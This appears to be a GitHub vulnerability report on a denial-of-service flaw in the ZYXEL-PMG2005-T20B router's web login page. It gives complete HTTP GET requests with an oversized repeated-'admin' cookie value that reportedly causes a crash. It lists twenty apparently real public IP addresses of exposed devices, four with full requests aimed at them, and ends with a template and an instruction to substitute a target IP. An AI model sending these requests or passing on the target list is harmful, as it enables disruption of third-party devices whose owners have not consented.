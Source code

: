 # Rumble
 ZYXEL-PMG2005-T20B has a denial of service vulnerability
Zyxel is a leading global provider of comprehensive communication and information solutions, providing innovative technology and product solutions for telecom operators, government and enterprise customers, and consumers worldwide. ZYXEL-PMG2005-T20B has a denial of service vulnerability. Attackers can exploit this vulnerability to cause the browser to crash.
ZYXEL-PMG2005-T20B
1.Vulnerability Address：http://177.221.16.243/cgi-bin/login.asp
Request Package：
GET /cgi-bin/index.asp HTTP/1.1
Host: 177.221.16.243
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://177.221.16.243/cgi-bin/login.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSIONID=4450a48a; uid=adminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadmin; psw=1234
Connection: close

Browser crashes after execution
2.Vulnerability Address：http://179.191.53.240/cgi-bin/login.asp
Request Package：
GET /cgi-bin/index.asp HTTP/1.1
Host: 179.191.53.240
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://179.191.53.240/cgi-bin/login.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSIONID=4450a48a; uid=adminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadmin; psw=1234
Connection: close



Browser crashes after execution
3.
Vulnerability Address：http://179.191.53.133/cgi-bin/login.asp

Request Package：
GET /cgi-bin/index.asp HTTP/1.1
Host: 179.191.53.133
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://179.191.53.133/cgi-bin/login.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSIONID=4450a48a; uid=adminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadmin; psw=1234
Connection: close


Browser crashes after execution


4.
Vulnerability Address：http://177.221.17.76/cgi-bin/login.asp
Request Package：
GET /cgi-bin/index.asp HTTP/1.1
Host: 177.221.17.76
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://177.221.17.76/cgi-bin/login.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie:SESSIONID=4450a48a; uid=adminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadmin; psw=1234
Connection: close

Browser crashes after execution

5.Vulnerability Address：http://187.111.205.144/cgi-bin/login.asp
6.Vulnerability Address：http://179.191.53.138/cgi-bin/login.asp
7.Vulnerability Address：http://187.111.205.157/cgi-bin/login.asp
8.Vulnerability Address：http://189.36.156.42/cgi-bin/login.asp
9.Vulnerability Address：http://179.191.53.15/cgi-bin/login.asp
10.Vulnerability Address：http://45.182.161.27/cgi-bin/login.asp
11.Vulnerability Address：http://45.182.161.46/cgi-bin/login.asp
12.Vulnerability Address：http://45.182.161.42/cgi-bin/login.asp
13.Vulnerability Address：http://45.182.161.47/cgi-bin/login.asp
14.Vulnerability Address：http://45.182.161.43/cgi-bin/login.asp
15.Vulnerability Address：http://45.182.161.25/cgi-bin/login.asp
16.Vulnerability Address：http://179.191.53.89/cgi-bin/login.asp
17.Vulnerability Address：http://179.107.195.230/cgi-bin/login.asp
18.Vulnerability Address：http://45.182.161.41/cgi-bin/login.asp
19.Vulnerability Address：http://45.182.161.33/cgi-bin/login.asp
20.Vulnerability Address：http://45.182.161.45/cgi-bin/login.asp
Request package is：
GET /cgi-bin/index.asp HTTP/1.1
Host: IP
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://IP/cgi-bin/login.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie:SESSIONID=4450a48a; uid=adminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadmin; psw=1234
Connection: close

Replacing the above two IPs with the target IP can cause the browser to crash
